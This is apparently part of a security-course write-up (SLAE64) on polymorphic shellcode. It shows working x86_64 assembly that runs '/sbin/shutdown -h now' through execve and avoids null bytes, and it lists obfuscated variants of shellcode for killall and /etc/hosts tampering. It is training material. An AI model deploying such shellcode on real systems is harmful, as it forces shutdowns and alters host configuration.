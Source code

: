 ```asm
        command: db "///sbin/shutdown "
        arg1   : db "-h "
        arg2   : db "now "

real_start:

        push 59                         ; Syscall Number moved here
        pop rax

        cdq                             ; RDX <- 0x00 as RAX >= 0
        push rdx                        ; NULL

        lea rbx, [rel arg2]             ; Rel Addr
        mov [rbx + 3], byte dl
        push rbx			; Push @

        sub bl, 3			; Rel Addr
        push rbx
        pop rcx
        mov [rcx + 2], byte dl
        push rcx			; Push @

        ;lea rdi, [rel command]         ; Rel Addr
        sub bl, 17
        push rbx
        pop rdi
        mov [rdi+16], byte dl
        push rdi			; Push @

        push rsp			; Push @ of @
        pop rsi

        syscall
```
### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment06) for this assignment contains the following files:

- [Sample_1_Original.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment06/Sample_1_Original.nasm) : Contains the original code for the first sample shellcode, `sethostname() & killall 33`
- [Sample_1_Polymorph.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment06/Sample_1_Polymorph.nasm) : Polymorph version for the `sethostname() & killall` shellcode.
- [Sample_2_Original.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment6/Sample_2_Original.nasm) : Contains the original code for the second sample shellcode, `Add map in /etc/hosts file`
- [Sample_2_Polymorph_V1.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment06/Sample_2_Polymorph_V1.nasm) : V1 of the polymorphed code for the `Add map in /etc/hosts file`.
- [Sample_2_Polymorph_V2.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment06/Sample_2_Polymorph_V2.nasm) : As the V1 left us bytes to play, created this second version even more obfuscated for th `Add map in /etc/hosts file`
- [Sample_3_Original.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment06/Sample_3_Original.nasm) : Contains the original code for the `shutdown -h now x86_64 Shellcode` sample shellcode
- [Sample_3_Polymorph.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment06/Sample_3_Polymorph.nasm) : Polymorph version for the `shutdown -h now x86_64 Shellcode` shellcode.

